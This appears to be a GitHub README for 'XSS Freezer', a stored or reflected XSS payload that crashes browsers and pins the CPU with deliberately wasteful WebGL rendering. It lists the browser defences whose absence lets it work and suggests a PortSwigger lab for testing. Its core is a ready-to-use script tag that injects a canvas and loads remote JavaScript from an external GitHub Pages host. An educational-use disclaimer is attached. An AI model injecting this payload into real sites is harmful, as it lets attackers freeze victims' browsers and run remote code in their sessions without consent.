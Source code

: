 <b>XSS Freezer</b> is an XSS vulnerability (Stored, Reflected) payload that crashes the browser and warms up the CPU due to a 100% load. CPU load is achieved due to WebGL 2.0 with extreme settings, complex shaders, mass particle rendering, interactivity, and negative code optimization (i.e. not for the benefit but for the detriment of the user).

The script will work if the page is missing:
* SOP (Same-Origin Policy);
* CSP (Content Security Policy);
* Input validation;
* And other technologies that prevent XSS.

For the test, you can run the laboratory in https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded.

⚠️ Important: This payload is for educational purposes only and for testing on your own or training systems. Use in real attacks violates laws and ethical standards. The author of the repository is not responsible for the use of this payload by third parties.

https://github.com/user-attachments/assets/e35d05a5-1d54-42a2-89e8-511a6380acd5

------------------------------------------

[224 characters] <br>
```<script>var c=document.createElement('canvas');c.id='cpuCanvas';document.body.appendChild(c);var r=document.createElement('script');r.src='//0-dayff13r.github.io/XSS-Freezer/freezer.js';document.body.appendChild(r);</script>```
